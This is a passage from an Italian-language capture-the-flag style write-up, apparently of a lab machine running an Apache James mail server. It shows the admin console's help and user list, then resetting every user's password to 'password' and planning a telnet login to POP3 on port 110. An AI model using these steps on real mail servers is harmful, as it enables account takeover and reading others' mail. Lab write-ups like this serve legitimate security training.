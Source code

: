 ## Exploitation

Utilizzo il comando HELP per stampare la lista dei comandi disponibili:

```text
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Utilizzo il comando _listusers_:

```text
Existing accounts 6
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Successivamente, utilizzo il comando _setpassword_ per cambiare la password in **password** a tutti gli utenti della lista.

```text
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
setpassword mailadmin password
Password for mailadmin reset
```

Ora provo ad accedere, tramite il comando _telnet_, alla porta 110. Per farlo utilizzo le credenziali degli utenti precedentemente ottenute (e modificate).
